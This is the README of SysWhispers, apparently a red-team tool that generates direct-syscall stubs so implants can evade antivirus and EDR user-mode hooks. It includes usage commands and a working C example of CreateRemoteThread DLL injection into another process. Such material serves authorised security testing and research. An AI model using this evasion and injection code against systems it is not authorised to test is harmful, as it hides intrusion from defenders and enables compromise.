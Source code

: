 # SysWhispers

SysWhispers helps with evasion by generating header/ASM files implants can use to make direct system calls.

All core syscalls are supported from Windows XP to 10. Example generated files available in `example-output/`.  

## Introduction

Various security products place hooks in user-mode APIs which allow them to redirect execution flow to their engines and detect for suspicious behaviour. The functions in `ntdll.dll` that make the syscalls consist of just a few assembly instructions, so re-implementing them in your own implant can bypass the triggering of those security product hooks. This technique was popularized by [@Cn33liz](https://twitter.com/Cneelis) and his [blog post](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) has more technical details worth reading.

SysWhispers provides red teamers the ability to generate header/ASM pairs for any system call in the core kernel image (`ntoskrnl.exe`) across any Windows version starting from XP. The headers will also include the necessary type definitions.

The main implementation difference between this and the [Dumpert](https://github.com/outflanknl/Dumpert) POC is that this doesn't call `RtlGetVersion` to query the OS version, but instead does this in the assembly by querying the PEB directly. The benefit is being able to call one function that supports multiple Windows versions instead of calling multiple functions each supporting one version.

## Installation

```bash
> git clone https://github.com/jthuraisamy/SysWhispers.git
> cd SysWhispers
> pip3 install -r .\requirements.txt
> py .\syswhispers.py --help
```

## Usage and Examples

### Command Lines

```powershell
# Export all functions with compatibility for all supported Windows versions (see example-output/).
py .\syswhispers.py --preset all -o syscalls_all

# Export just the common functions with compatibility for Windows 7, 8, and 10.
py .\syswhispers.py --preset common -o syscalls_common

# Export NtProtectVirtualMemory and NtWriteVirtualMemory with compatibility for all versions.
py .\syswhispers.py --functions NtProtectVirtualMemory,NtWriteVirtualMemory -o syscalls_mem

# Export all functions with compatibility for Windows 7, 8, and 10.
py .\syswhispers.py --versions 7,8,10 -o syscalls_78X
```

### Script Output

```
PS C:\Projects\SysWhispers> py .\syswhispers.py --preset common --out-file syscom

  ,         ,       ,_ /_   .  ,   ,_    _   ,_   ,
_/_)__(_/__/_)__/_/_/ / (__/__/_)__/_)__(/__/ (__/_)__
      _/_                         /
     (/                          /   @Jackson_T, 2019

SysWhispers: Why call the kernel when you can whisper?

Common functions selected.

Complete! Files written to:
        syscom.asm
        syscom.h
```

### Before-and-After Example of Classic `CreateRemoteThread` DLL Injection

```
py .\syswhispers.py -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o syscalls
```

```c
#include <Windows.h>

void InjectDll(const HANDLE hProcess, const char* dllPath)
{
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	
    WriteProcessMemory(hProcess, lpBaseAddress, dllPath, strlen(dllPath), nullptr);
    CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)lpStartAddress, lpBaseAddress, 0, nullptr);
}
```

```c
#include <Windows.h>
#include "syscalls.h" // Import the generated header.

void InjectDll(const HANDLE hProcess, const char* dllPath)
{
    HANDLE hThread = NULL;
    LPVOID lpAllocationStart = nullptr;
    SIZE_T szAllocationSize = strlen(dllPath);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	
    NtAllocateVirtualMemory(hProcess, &lpAllocationStart, 0, (PULONG)&szAllocationSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(hProcess, lpAllocationStart, (PVOID)dllPath, strlen(dllPath), nullptr);
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, lpStartAddress, lpAllocationStart, FALSE, 0, 0, 0, nullptr);
}
```

## Common Functions

Using the `--preset common` switch will create a header/ASM pair with the following functions:

<details>
  <summary>Click to expand function list.</summary>

- NtCreateProcess (CreateProcess)
- NtCreateThreadEx (CreateRemoteThread)
- NtOpenProcess (OpenProcess)
- NtOpenThread (OpenThread)
- NtSuspendProcess
- NtSuspendThread (SuspendThread)
- NtResumeProcess
- NtResumeThread (ResumeThread)
- NtGetContextThread (GetThreadContext)
- NtSetContextThread (SetThreadContext)
- NtClose (CloseHandle)
- NtReadVirtualMemory (ReadProcessMemory)
- NtWriteVirtualMemory (WriteProcessMemory)
- NtAllocateVirtualMemory (VirtualAllocEx)
- NtProtectVirtualMemory (VirtualProtectEx)
- NtFreeVirtualMemory (VirtualFreeEx)
- NtQuerySystemInformation (GetSystemInfo)
- NtQueryDirectoryFile
- NtQueryInformationFile
- NtQueryInformationProcess
- NtQueryInformationThread
- NtCreateSection (CreateFileMapping)
- NtOpenSection
- NtMapViewOfSection
- NtUnmapViewOfSection
- NtAdjustPrivilegesToken (AdjustTokenPrivileges)
- NtDeviceIoControlFile (DeviceIoControl)
- NtQueueApcThread (QueueUserAPC)
- NtWaitForMultipleObjects (WaitForMultipleObjectsEx)

</details>

## Importing into Visual Studio

1. Copy the generated H/ASM files into the project folder.
2. In Visual Studio, go to *Project* → *Build Customizations...* and enable MASM.
3. In the *Solution Explorer*, add the .h and .asm files to the project as header and source files, respectively.
4. Go to the properties of the ASM file, and set the *Item Type* to *Microsoft Macro Assembler*.
5. Ensure that the project platform is set to x64. 32-bit projects are not supported at this time.

## Caveats and Limitations

- Only 64-bit Windows is supported at this time.
- System calls from the graphical subsystem (`win32k.sys`) are not supported.
- Tested on Visual Studio 2019 (v142) with Windows 10 SDK.

## Troubleshooting

- `ModuleNotFoundError` in Python script.
  - Ensure that the required modules are installed with `pip3 install -r requirements.txt`.
- Type redefinitions errors: a project may not compile if typedefs in `syscalls.h` have already been defined.
  - Ensure that only required functions are included (i.e. `--preset all` is rarely necessary).
  - If a typedef is already defined in another used header, then it could be removed from `syscalls.h`.

## Credits

This script was developed by [@Jackson_T](https://twitter.com/Jackson_T) but builds upon the work of many others:

- [@j00ru](https://twitter.com/j00ru) for maintaining syscall numbers in machine-readable formats.
- [@FoxHex0ne](https://twitter.com/FoxHex0ne) for cataloguing many function prototypes and typedefs in a machine-readable format.
- [@PetrBenes](https://twitter.com/PetrBenes), [NTInternals.net team](https://undocumented.ntinternals.net/), and [MSDN](https://docs.microsoft.com/en-us/windows/) for additional prototypes and typedefs.
- [@Cn33liz](https://twitter.com/Cneelis) for the initial [Dumpert](https://github.com/outflanknl/Dumpert) POC implementation.

Special thanks to [@Dcept905](https://twitter.com/Dcept905) for testing and suggestions.

code for getting new syscalls taken from a forum post from timb3r on  https://guidedhacking.com/threads/understanding-windows-syscalls-syscall-dumper.14470/

## Related Articles and Projects

- [@0x00dtm](https://twitter.com/0x00dtm): [Userland API Monitoring and Code Injection Detection](https://0x00sec.org/t/userland-api-monitoring-and-code-injection-detection/5565)
- [@0x00dtm](https://twitter.com/0x00dtm): [Defeating Userland Hooks (ft. Bitdefender)](https://0x00sec.org/t/defeating-userland-hooks-ft-bitdefender/12496) ([Code](https://github.com/NtRaiseHardError/Antimalware-Research/tree/master/Generic/Userland%20Hooking/AntiHook))
- [@Cn33liz](https://twitter.com/Cneelis): [Combining Direct System Calls and sRDI to bypass AV/EDR](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) ([Code](https://github.com/outflanknl/Dumpert))
- [@mrgretzky](https://twitter.com/mrgretzky): [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
- [@SpecialHoang](https://twitter.com/SpecialHoang): [Bypass EDR’s memory protection, introduction to hooking](https://medium.com/@fsx30/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6) ([Code](https://github.com/hoangprod/AndrewSpecial/tree/master))
- [@xpn](https://twitter.com/_xpn_) and [@domchell](https://twitter.com/domchell): [Silencing Cylance: A Case Study in Modern EDRs](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/)
- [@mrjefftang](https://twitter.com/mrjefftang): [Universal Unhooking: Blinding Security Software](https://threatvector.cylance.com/en_us/home/universal-unhooking-blinding-security-software.html) ([Code](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher))
- [@spotheplanet](https://twitter.com/spotheplanet): [Full DLL Unhooking with C++](https://ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)
- [@hasherezade](https://twitter.com/hasherezade): [Floki Bot and the stealthy dropper](https://blog.malwarebytes.com/threat-analysis/2016/11/floki-bot-and-the-stealthy-dropper/)
- [@hodg87](https://twitter.com/hodg87): [Latest Trickbot Variant has New Tricks Up Its Sleeve](https://www.cyberbit.com/blog/endpoint-security/latest-trickbot-variant-has-new-tricks-up-its-sleeve/)
- [@hodg87](https://twitter.com/hodg87): [Malware Mitigation when Direct System Calls are Used](https://www.cyberbit.com/blog/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/)

## Licence

This project is licensed under the Apache License 2.0.
